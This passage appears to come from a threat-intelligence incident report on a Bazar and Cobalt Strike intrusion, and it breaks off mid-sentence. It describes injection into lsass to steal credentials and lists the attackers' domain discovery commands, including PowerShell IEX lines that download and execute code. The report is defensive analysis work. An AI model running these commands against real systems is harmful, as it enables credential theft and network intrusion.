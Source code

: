
### Credential Access


The threat actors were seen using remote thread creation to inject into lsass to extract credentials.


[![](https://thedfirreport.com/wp-content/uploads/2021/02/anchor-12.png)](https://thedfirreport.com/wp-content/uploads/2021/02/anchor-12.png)


The same activity as seen via a the larger process tree.


[![](https://thedfirreport.com/wp-content/uploads/2021/02/anchor-19.png)](https://thedfirreport.com/wp-content/uploads/2021/02/anchor-19.png)


Discovery


Bazar initiated some discovery activity within 10 minutes of executing.



```
net view /all  
net view /all /domain  
nltest.exe /domain\_trusts /all\_trusts  
net localgroup "administrator"  
net group "domain admins" /domain  
systeminfo  
whoami  
reg query hklm\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall /v "DisplayName" /s  
reg query hklm\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall /v "DisplayName" /s  
reg query hkcu\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall /v "DisplayName" /s  
reg query hkcu\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall /v "DisplayName" /s
```

Cobalt Strike initiated the following discovery commands:



```
net group \"enterprise admins\" /domain  
net group \"domain admins\" /domain  
systeminfo
```

On the domain controller the following discovery was run:



```
nltest /dclist:"DOMAIN.EXAMPLE  
nltest /domain\_trusts /all\_trusts  
IEX (New-Object Net.Webclient).DownloadString('"http://127.0.0.1:3672/'); Get-NetSubnet  
IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:45082/'); Get-NetComputer -ping
```

The following PowerShell command was executed from the domain controller.
